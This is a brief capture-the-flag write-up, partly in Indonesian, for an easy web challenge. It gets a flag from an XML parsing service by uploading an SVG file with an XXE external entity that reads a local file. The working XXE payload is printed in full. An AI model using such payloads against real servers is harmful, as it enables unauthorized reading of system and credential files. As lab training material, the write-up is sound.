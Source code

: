 # EXtravagant
#easy #web #xxe

Tools:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg

I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.  

## Target
The flag is in /var/www
- XML input
![](attachments/Pasted%20image%2020220503162926.png)

XML preview
![](attachments/Pasted%20image%2020220503162940.png)



## Solusi
Menggunakan klasik XXE dari: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg  
Buat file `explo2.svg`  
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///var/www/flag.txt" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>   
```  
Upload `explo2.svg`  
![](attachments/Pasted%20image%2020220503164726.png)  

Lihat isi dari `explo2.svg`  
![](attachments/Pasted%20image%2020220503164807.png)  

Flag  
![](attachments/Pasted%20image%2020220503164751.png)  

